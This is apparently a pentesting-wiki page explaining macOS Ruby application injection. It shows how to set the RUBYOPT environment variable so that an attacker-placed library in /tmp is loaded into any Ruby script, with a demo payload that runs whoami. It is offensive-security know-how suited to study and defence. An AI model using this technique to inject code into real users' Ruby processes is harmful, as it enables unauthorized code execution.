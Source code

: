 # macOS Ruby Applications Injection


## RUBYOPT

Using this env variable it's possible to **add new params** to **ruby** whenever it gets executed. Although the param **`-e`** cannot be used to specify ruby code to execute, it's possible to use the params **`-I`** and **`-r`** to add a new folder to the libraries to load path and then **specify a library to load**.

Create the library **`inject.rb`** in **`/tmp`**:

{% code title="inject.rb" %}
```ruby
puts `whoami`
```
{% endcode %}

Create anywahere a ruby script like:

{% code title="hello.rb" %}
```ruby
puts 'Hello, World!'
```
{% endcode %}

Then make an arbitrary ruby script load it with:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```

Fun fact, it works even with param **`--disable-rubyopt`**:

```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```

